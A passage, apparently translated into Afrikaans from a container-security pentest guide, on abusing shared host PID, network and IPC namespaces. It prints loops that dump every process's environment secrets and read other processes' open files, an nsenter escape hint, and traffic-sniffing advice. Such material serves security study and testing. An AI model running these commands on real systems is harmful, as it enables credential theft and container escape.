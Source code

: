 Dan, aangesien jy **toegang het tot elke proses van die gasheer in /proc/, kan jy net hul omgewingsgeheime steel** deur uit te voer:
```bash
for e in `ls /proc/*/environ`; do echo; echo $e; xargs -0 -L1 -a $e; done
/proc/988058/environ
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOSTNAME=argocd-server-69678b4f65-6mmql
USER=abrgocd
...
```
Jy kan ook **toegang verkry tot ander prosesse se lêerbeskrywers en hul oop lêers lees**:
```bash
for fd in `find /proc/*/fd`; do ls -al $fd/* 2>/dev/null | grep \>; done > fds.txt
less fds.txt
...omitted for brevity...
lrwx------ 1 root root 64 Jun 15 02:25 /proc/635813/fd/2 -> /dev/pts/0
lrwx------ 1 root root 64 Jun 15 02:25 /proc/635813/fd/4 -> /.secret.txt.swp
# You can open the secret filw with:
cat /proc/635813/fd/4
```
Jy kan ook **prosesse doodmaak en 'n DoS veroorsaak**.

{% hint style="warning" %}
As jy op een of ander manier bevoorregte **toegang oor 'n proses buite die houer** het, kan jy iets soos `nsenter --target <pid> --all` of `nsenter --target <pid> --mount --net --pid --cgroup` hardloop om **'n skaal met dieselfde ns-beperkings** (hopelik geen) **as daardie proses**.
{% endhint %}

### hostNetwork
```
docker run --rm -it --network=host ubuntu bash
```
Indien 'n houer ingestel is met die Docker [gasnetwerkbestuurder (`--network=host`)](https://docs.docker.com/network/host/), is daardie houer se netwerkstapel nie geïsoleer van die Docker-gashouer nie (die houer deel die gas se netwerk-namespace), en die houer kry nie sy eie IP-adres toegewys nie. Met ander woorde, die **houer bind alle dienste direk aan die gas se IP**. Verder kan die houer **ALLE netwerkverkeer wat die gas** stuur en ontvang op die gedeelde koppelvlak onderskep met `tcpdump -i eth0`.

Byvoorbeeld, jy kan dit gebruik om **verkeer te snuif en selfs te vervals** tussen die gas en metadata-instansie.

Soos in die volgende voorbeelde:

* [Verslag: Hoe om Google SRE te kontak: 'n Skulping in die wolk SQL](https://offensi.com/2020/08/18/how-to-contact-google-sre-dropping-a-shell-in-cloud-sql/)
* [Metadata-diens MITM maak wortelprivilege-escalatie moontlik (EKS / GKE)](https://blog.champtar.fr/Metadata\_MITM\_root\_EKS\_GKE/)

Jy sal ook in staat wees om **netwerkdienste wat aan die plaaslike gas** gebind is binne die gas te bereik of selfs toegang te verkry tot die **metadata-toestemmings van die node** (wat dalk verskil van dié wat 'n houer kan bereik).

### hostIPC
```bash
docker run --rm -it --ipc=host ubuntu bash
```
Met `hostIPC=true`, verkry jy toegang tot die inter-process kommunikasie (IPC) bronne van die gasheer, soos **gedeelde geheue** in `/dev/shm`. Dit maak dit moontlik om te lees/skryf waar dieselfde IPC-bronne deur ander gasheer- of houerprosesse gebruik word. Gebruik `ipcs` om hierdie IPC-meganismes verder te ondersoek.
